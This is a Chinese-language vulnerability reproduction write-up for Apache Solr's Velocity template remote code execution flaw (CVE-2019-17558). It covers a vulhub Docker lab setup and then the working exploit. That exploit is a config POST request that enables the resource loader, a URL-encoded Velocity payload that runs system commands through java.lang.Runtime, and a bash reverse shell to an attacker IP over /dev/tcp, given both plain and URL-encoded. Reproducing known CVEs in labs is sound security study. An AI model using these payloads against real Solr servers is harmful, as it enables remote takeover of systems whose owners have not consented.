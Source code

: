 ```yaml
---
title: Apache Solr Velocity模板远程执行 CVE-2019-17558
---
```


# Apache Solr Velocity模板远程执行 CVE-2019-17558

## 漏洞描述
2019年10月末，GitHub代码中安全研究员S00pY发布一个Apache Solr Velocity模版注入远程命令执行的POC，发现网络上出现针对Apache Solr服务器的远程代码执行漏洞。该漏洞是由于Velocity模板存在注入所致（Velocity是一个基于Java的模板引擎，可让使用者通过模板语言引用Java中定义的对象）。攻击者在知道Solr服务器上Core名称后，先把params.resource.loader.enabled设置为true（就可加载指定资源），再进行远程执行命令。

## 影响版本
<a-checkbox checked>Apache Solr 5.x 至 8.2.0</a-checkbox></br>

## 环境搭建
```shell
git clone https://github.com/vulhub/vulhub.git
cd vulhub/solr/CVE-2019-17558
docker-compose build
docker-compose up -d
```

创建一个solr核心test
```shell
docker-compose exec solr bash bin/solr create_core -c test -d example/example-DIH/solr/db
```
访问 http://xxx.xxx.xxx.xxx:8983/solr/ 正常即可

## 漏洞复现
打开后获取 Core 信息

![eba902b3-616d-4c1d-b357-2ab754df6d8b](../../../.vuepress/public/img/eba902b3-616d-4c1d-b357-2ab754df6d8b.png)

访问Core的config配置信息时，通过POST请求把`{% em type="red" %}params.resource.loader.enabled{% endem %}`设置为 True，再通过精心构造的get请求即可RCE，此时用户就可以加载指定资源，构造一个能执行命令的恶意请求

设置`params.resource.loader.enabled为True`

![fde10f99-354f-45bf-85ab-9abab467f8c1](../../../.vuepress/public/img/fde10f99-354f-45bf-85ab-9abab467f8c1.png)

```shell
POST /solr/test/config HTTP/1.1
Host: 

{

  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```

再使用POC造成命令执行

```shell
/solr/test/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x="")+%23set($rt=$x.class.forName("java.lang.Runtime"))+%23set($chr=$x.class.forName('java.lang.Character'))+%23set($str=$x.class.forName("java.lang.String"))+%23set($ex=$rt.getRuntime().exec("whoami"))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end
```

![image-20220307152918862](../../../.vuepress/public/img/image-20220307152918862.png)

反弹hell，因为部分命令会被过滤导致返回 Error 500 ，所以反弹shell需要用另外的反弹shell方法

```
POC : /bin/bash -c $@|bash 0 echo bash -i >& /dev/tcp/xxx.xxx.xxx.xxx:9999 0>&1
```

POC需要`Urlencoding`进行编码才能绕过

```
POC ： %2Fbin%2Fbash%20-c%20%24%40%7Cbash%200%20echo%20bash%20-i%20%3E%26%2Fdev%2Ftcp%2F{IP}%2F{PORT}%200%3E%261
```

